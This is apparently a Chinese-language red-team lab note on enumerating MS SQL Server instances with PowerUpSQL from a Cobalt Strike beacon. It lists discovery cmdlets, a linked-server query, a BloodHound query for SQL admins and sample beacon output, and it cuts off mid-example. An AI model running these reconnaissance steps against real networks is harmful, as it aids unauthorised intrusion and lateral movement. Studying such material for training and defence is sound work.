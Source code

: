 # MS SQL Servers


枚举某个实例下的链接
```
powershell Get-SQLQuery -Instance "sql" -Query "SELECT * FROM master..sysservers"
```



MSSQL除了信息数据窃取以外还有很大的攻击面，包括：代码执行，权限提升，横向移动，权限维持

使用工具：[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)


查找MSSQL实例的cmdlets
```
Get-SQLInstanceDomain
Get-SQLInstanceBroadcast
Get-SQLInstanceScanUDP
```

例子:
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-SQLInstanceDomain

ComputerName     : srv-1.dev.cyberbotic.io
Instance         : srv-1.dev.cyberbotic.io,1433
DomainAccountSid : 15000005210002361191261941702819312113313089172110400
DomainAccount    : svc_mssql
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/srv-1.dev.cyberbotic.io:1433
LastLogon        : 5/14/2021 2:24 PM
Description      : 
```

BloodHound等价操作，甚至可以查找潜在的mssql管理员
```
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```

``` Get-SQLConnectionTest```查找是否可以连接数据库
```
beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl

ComputerName : srv-1.dev.cyberbotic.io
Instance     : srv-1.dev.cyberbotic.io,1433
Status       : Accessible
```

```Get-SQLServerInfo```命令收集更详细的连接实例信息
```
beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
